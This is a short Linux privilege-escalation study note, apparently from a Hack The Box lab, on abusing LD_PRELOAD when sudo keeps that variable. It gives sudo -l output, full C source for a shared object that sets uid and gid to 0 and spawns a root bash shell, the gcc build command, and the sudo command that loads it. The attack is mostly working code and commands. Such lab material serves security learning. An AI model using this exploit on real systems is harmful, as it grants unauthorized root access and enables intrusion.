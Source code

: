 #Linux_PrivilegeEscalation 

---

### LD_PRELOAD Privilege Escalation

To utilize `LD_PRELOAD` environment variable we need a user with sudo privileges. To check which binaries we can run with sudo privileges we use the following command:

```bash
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

- Above we can see that we can run `/usr/sbin/apache2 restart` with sudo privileges. We can exploit this by creating the following `root.c` file:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
- We compile the above file with the following:
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
- We can then run the following command:
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

